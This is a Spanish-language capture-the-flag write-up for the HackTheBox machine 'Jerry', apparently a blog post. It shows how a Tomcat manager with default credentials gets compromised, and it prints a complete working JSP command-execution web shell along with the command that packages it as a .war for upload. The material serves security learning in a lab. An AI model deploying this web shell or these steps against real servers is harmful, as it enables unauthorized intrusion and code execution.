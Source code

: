 ```yaml
---
layout: single
title: Jerry - HackTheBox
excerpt: "Explotación de un servidor Windows con Apache Tomcat expuesto. Aprovechamos credenciales por defecto y desplegamos una web shell mediante un archivo .war para obtener acceso como NT AUTHORITY SYSTEM"
date: 2025-05-20
classes: wide
header:
  teaser: /assets/images/Jerry/Jerry.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Red Team
tags:  
  - Apache-Tomcat
  - Nmap
  - Web shell
---
```


![](/assets/images/Jerry/Jerry.png){:style="max-width:450px;height:auto;"}

## Resumen

En la máquina Jerry de HackTheBox, realizamos un reconocimiento con nmap que reveló un servicio HTTP corriendo en el puerto 8080, específicamente una instancia de Apache Tomcat. Aprovechamos credenciales por defecto (tomcat:s3cret) para acceder al panel de administración y desplegar un archivo .war con una web shell. Finalmente, conseguimos ejecutar comandos en el sistema y establecer una reverse shell, obteniendo acceso como NT AUTHORITY\SYSTEM.

## Reconocimiento

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles. También ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/Jerry/Reconocimiento-Puertos-Scripts.png)

El servidor expone el siguiente servicio:

- HTTP en el puerto 8080

## Página Web

El servicio web en el puerto 8080 contiene una web por defecto de 'Apache Tomcat':

![](/assets/images/Jerry/Web.png)

## Shell (NT Authority\System)

Si intentamos acceder a 'Manager App' nos dirá que no estamos autorizados, pero también nos proporcionan las credenciales por defecto:

![](/assets/images/Jerry/Web-Manager-App.png)

Si tratamos de iniciar sesión con las credenciales por defecto anteriormente obtenidas (tomcat:s3cret), podemos ver que son correctas:

![](/assets/images/Jerry/Web-Login.png)

Una vez dentro del panel administrador, podemos ver que podemos subir archivos con extensión 'war':

![](/assets/images/Jerry/Web-Create-War-File.png)

Para crear un archivo 'war' que nos proporcione una web shell, vamos a usar este de 'HackTricks':

![](/assets/images/Jerry/Web-Create-War-File-Web-Shell.png)

El servidor necesita un archivo comprimido con cierta estructura para poder crear el archivo 'war'.

Hay que crear dos directorios y dos archivos:

    mywar/
    ├── WEB-INF/
    │   └── web.xml
    └── index.jsp

- web.xml:

        <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" 
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee 
            http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
            version="3.1">

        <display-name>My JSP Command App</display-name>

        </web-app>

- index.jsp

        <%@ page import="java.util.*,java.io.*"%>
        <%
        //
        // JSP_KIT
        //
        // cmd.jsp = Command Execution (unix)
        //
        // by: Unknown
        // modified: 27/06/2003
        //
        %>
        <HTML><BODY>
        <FORM METHOD="GET" NAME="myform" ACTION="">
        <INPUT TYPE="text" NAME="cmd">
        <INPUT TYPE="submit" VALUE="Send">
        </FORM>
        <pre>
        <%
        if (request.getParameter("cmd") != null) {
                out.println("Command: " + request.getParameter("cmd") + "<BR>");
                Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
                OutputStream os = p.getOutputStream();
                InputStream in = p.getInputStream();
                DataInputStream dis = new DataInputStream(in);
                String disr = dis.readLine();
                while ( disr != null ) {
                        out.println(disr); 
                        disr = dis.readLine(); 
                        }
                }
        %>
        </pre>
        </BODY></HTML>

Una vez hecho toda la estructura necesaria, comprimimos:

    jar -cvf cmd.war -C mywar .

Y subimos el archivo comprimido.

Una vez subido, vamos al panel para verificar que está:

![](/assets/images/Jerry/Web-War-File.png)

Nos dirigimos a la ruta:

![](/assets/images/Jerry/Web-Shell.png)

Y probamos que funcione con un comando:

![](/assets/images/Jerry/Web-Shell-Whoami.png)

Ahora ejecutamos una reverse shell:

![](/assets/images/Jerry/Rev-Shell-Content.png)

![](/assets/images/Jerry/Shell.png)

Las banderas 'User' y 'Root' se encuentran en el directorio 'Desktop' en la carpeta 'flags' del usuario 'Administrator':

![](/assets/images/Jerry/Flags.png)

### Conclusión

La máquina Jerry demuestra cómo un servicio mal configurado y el uso de credenciales por defecto pueden comprometer por completo un sistema. El entorno Apache Tomcat permite subir archivos .war, lo cual fue aprovechado para ejecutar código arbitrario y escalar privilegios hasta obtener control total. Esta práctica resalta la importancia de cambiar credenciales por defecto y restringir el acceso a paneles de administración.
